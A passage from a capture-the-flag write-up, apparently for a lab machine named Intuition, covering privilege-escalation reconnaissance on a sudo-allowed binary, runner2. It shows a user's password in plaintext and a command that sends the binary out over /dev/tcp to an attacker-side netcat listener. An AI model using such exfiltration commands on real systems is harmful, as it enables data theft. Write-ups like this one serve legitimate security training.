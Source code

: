 ```bash
lopez@intuition:~$ 
```

# Access as root

The lopez user has a sudoers privilege that lets him run `/opt/runner2/runner2` as any user he wants:

```bash
lopez@intuition:~$ sudo -l
[sudo] password for lopez: Lopezz1992%123
Matching Defaults entries for lopez on intuition:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User lopez may run the following commands on intuition:
    (ALL : ALL) /opt/runner2/runner2
```

This seems similar to runner1, running it shows the help panel and asks for a json file:

```bash
lopez@intuition:~$ sudo /opt/runner2/runner2 
Usage: /opt/runner2/runner2 <json_file>
```

But runner1 doesn't asks for it, so it's different:

```bash
❯ cd adam-ftp
❯ ls
run-tests.sh  runner1  runner1.c
❯ ./runner1
Usage: ./runner1 [list|run playbook_number|install role_url] -a <auth_key>
```

## Analysis of runner2

I will transfer runner2 to my machine to analyze it:

```bash
❯ nc -lvnp 443 > runner2
listening on [any] 443 ...
```

```bash
lopez@intuition:/tmp$ cat /opt/runner2/runner2 > /dev/tcp/10.10.15.95/443
```

Running it, asks for a json file:

```bash
❯ chmod +x runner2
❯ ./runner2
Usage: ./runner2 <json_file>
```

So it's different to runner1, which asks for a method and an auth key:

```bash
❯ ./adam-ftp/runner1
Usage: ./adam-ftp/runner1 [list|run playbook_number|install role_url] -a <auth_key>
```

Trying it with a random json file gives an error:

```bash
❯ /bin/cat test.json
{"key": "value"}
❯ ./runner2 test.json
```

[WARNING]: Skipping plugin (/usr/lib/python3/dist-packages/ansible/plugins/filter/core.py) as it seems to be invalid: cannot import name 'environmentfilter' from 'jinja2.filters'
[WARNING]: Skipping plugin (/usr/lib/python3/dist-packages/ansible/plugins/filter/mathstuff.py) as it seems to be invalid: cannot import name 'environmentfilter' from 'jinja2.filters'
